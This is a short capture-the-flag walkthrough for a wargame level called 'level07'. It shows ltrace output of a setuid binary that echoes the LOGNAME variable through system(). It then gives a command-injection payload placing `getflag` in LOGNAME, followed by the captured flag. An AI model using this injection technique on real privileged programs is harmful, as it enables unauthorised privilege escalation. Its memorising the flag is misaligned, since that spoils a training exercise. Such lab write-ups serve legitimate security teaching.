 ## level07
1. We are given `level07` binary executable, output when launched: "level07"
2. Check the inner system calls
```
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff6e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                = 2007
geteuid()                                                = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
getenv("LOGNAME")                                        = "level07"
asprintf(0xbffff634, 0x8048688, 0xbfffff3a, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++
```
3. Environmental variable `LOGNAME` contains "level07" text, and `echo` prints it on screen. Therefore if swap containing of `LOGNAME` with shell command in backticks, it will be executed by echo
``` Bash
export LOGNAME=\`getflag\`
```
4. Launching `./level07` results to flag for level08: **fiumuikeil55xe9cu4dood66h**

### [< PREVIOUS LEVEL](../../level06/Resources/stages.md) | [NEXT LEVEL >](../../level08/Resources/stages.md)
### [MAIN MENU](../../README.md)

